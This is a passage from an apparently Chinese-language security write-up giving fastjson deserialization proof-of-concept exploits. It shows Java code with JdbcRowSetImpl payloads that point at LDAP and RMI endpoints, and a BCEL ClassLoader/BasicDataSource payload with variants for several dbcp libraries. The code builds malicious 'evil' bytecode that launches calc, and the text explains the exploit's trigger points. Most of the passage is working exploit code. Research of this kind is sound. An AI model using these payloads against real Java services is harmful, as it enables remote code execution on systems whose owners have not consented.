 ```
    //JDK 8u121以后版本需要设置改系统变量
    System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
    //LADP
    String payload1 = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://localhost:1389/Exploit\",\"autoCommit\":true}";
    //RMI
    String payload2 = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"rmi://127.0.0.1:1099/ref\",\"autoCommit\":true}";
    JSONObject.parseObject(payload2);
    JSON.parse(payload2);
    return payload2;
  }
}
```  
  
以上poc共有三个触发点：静态代码块(Class.forName())、类实例化、和getObjectInstance()方法。  
  
#### 2、基于com.sun.org.apache.bcel.internal.util.ClassLoader的PoC2  
  
这个PoC是漏洞利用时最方便的，它不需要依赖JNDI等服务，所有内容一个请求中搞定。  
```
package fastjsonPoCs;
import evilClass.*;
import com.alibaba.fastjson.JSONObject;
import com.sun.org.apache.bcel.internal.classfile.Utility;
/*
 * 基于org.apache.tomcat.dbcp.dbcp.BasicDataSource的PoC，当然也可以说是基于com.sun.org.apache.bcel.internal.util.ClassLoader的PoC
 * 前者的主要作用是触发，也就是包含Class.forName()函数的逻辑(createConnectionFactory函数中)；后者是类加载器，可以解析特定格式的类byte[]。
 * 
 * 
 * org.apache.tomcat.dbcp.dbcp.BasicDataSource ----- https://mvnrepository.com/artifact/org.apache.tomcat/tomcat-dbcp 比如tomcat-dbcp-7.0.65.jar
 * org.apache.tomcat.dbcp.dbcp2.BasicDataSource ----- https://mvnrepository.com/artifact/org.apache.tomcat/tomcat-dbcp 比如tomcat-dbcp-9.0.13.jar
 * org.apache.commons.dbcp.BasicDataSource ----- https://mvnrepository.com/artifact/commons-dbcp/commons-dbcp
 * org.apache.commons.dbcp2.BasicDataSource ----- https://mvnrepository.com/artifact/org.apache.commons/commons-dbcp2
 * 
 * 主要参考：https://xz.aliyun.com/t/2272
 */
public class PoC2dbcp {
  public static void main(String[] argv){
    String xx = payload2();
  }
  public static String payload2() {
    //payload3:https://xz.aliyun.com/t/2272
    try {
      String payload2 = "{{\"@type\":\"com.alibaba.fastjson.JSONObject\",\"c\":{\"@type\":\"org.apache.tomcat.dbcp.dbcp.BasicDataSource\",\"driverClassLoader\":{\"@type\":\"com.sun.org.apache.bcel.internal.util.ClassLoader\"},\"driverClassName\":\"xxxxxxxxxx\"}}:\"ddd\"}";
//      payload3 = "{{\"@type\":\"com.alibaba.fastjson.JSONObject\",\"c\":{\"@type\":\"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\",\"driverClassLoader\":{\"@type\":\"com.sun.org.apache.bcel.internal.util.ClassLoader\"},\"driverClassName\":\"xxxxxxxxxx\"}}:\"ddd\"}";
//      payload3 = "{{\"@type\":\"com.alibaba.fastjson.JSONObject\",\"c\":{\"@type\":\"org.apache.commons.dbcp.BasicDataSource\",\"driverClassLoader\":{\"@type\":\"com.sun.org.apache.bcel.internal.util.ClassLoader\"},\"driverClassName\":\"xxxxxxxxxx\"}}:\"ddd\"}";
//      payload3 = "{{\"@type\":\"com.alibaba.fastjson.JSONObject\",\"c\":{\"@type\":\"org.apache.commons.dbcp2.BasicDataSource\",\"driverClassLoader\":{\"@type\":\"com.sun.org.apache.bcel.internal.util.ClassLoader\"},\"driverClassName\":\"xxxxxxxxxx\"}}:\"ddd\"}";
      byte[] bytecode = createEvilClass.create("evil","calc");
      String classname = Utility.encode(bytecode,true);
```